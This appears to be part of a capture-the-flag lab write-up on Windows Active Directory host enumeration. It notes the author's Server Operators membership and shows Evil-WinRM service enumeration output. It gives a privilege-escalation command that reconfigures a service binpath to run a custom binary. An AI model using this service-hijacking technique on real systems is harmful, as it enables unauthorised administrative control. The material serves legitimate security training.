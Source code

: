 # AD and Host Enumeration

### Initial enumeration commands

With the shell connection established, we quickly enumerate our host and environment.

Notice that we are a member of the group “Server Operators”. According to the MS wiki, we can do lots of admin tasks with this group.

<aside>
💡 What is server operators group?
Server Operators. A built-in group that exists only on domain controllers. By default, the group has no members. Server Operators can log on to a server interactively; create and delete network shares; start and stop services; back up and restore files; format the hard disk of the computer; and shut down the computer.

</aside>

We also find the first flag in C:\Users\j.rock\Desktop\user.txt

![Untitled](/windows_services/Untitled%204.png)

### Enumerating running services

Evil-WinRM has a built in function to enumerate running services.

After attempting to configure the binpath of the services with Privileges set to “True”, we find out that we have access to modify some of the services. 

This can be abused by setting a custom binary path and restart services.

`sc.exe config servicename binpath="C:\Temp\xx.exe"`

```powershell
*Evil-WinRM* PS C:\Users\j.rock\Documents> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent   
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent     
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup          
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc
```
